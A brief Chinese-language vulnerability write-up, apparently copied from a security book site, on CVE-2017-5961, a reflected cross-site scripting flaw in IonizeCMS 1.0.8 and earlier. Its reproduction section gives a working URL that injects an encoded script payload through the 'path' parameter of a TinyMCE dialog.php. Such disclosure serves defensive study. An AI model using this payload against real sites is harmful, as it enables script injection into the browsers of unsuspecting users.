 # （CVE-2017-5961）IonizeCMS xss

> 原文：[http://book.iwonder.run/0day/IonizeCMS/2.html](http://book.iwonder.run/0day/IonizeCMS/2.html)

## 一、漏洞简介

该漏洞源于在‘path’HTTP GET 参数传递到‘ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php’URL 时，程序没有充分地过滤此参数中用户提交的数据。攻击者可利用该漏洞在浏览器中执行任意的 HTML 和脚本代码。

## 二、漏洞影响

<=Ionize 1.0.8

## 三、复现过程

```
http://0-sec.org/testcmsofgithub/ionize-master/ionize-master/themes/admin/javascript/tinymce/jscripts/tiny_mce/plugins/codemirror/dialog.php?path=%22%3E%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3Cscript%20%22 
```


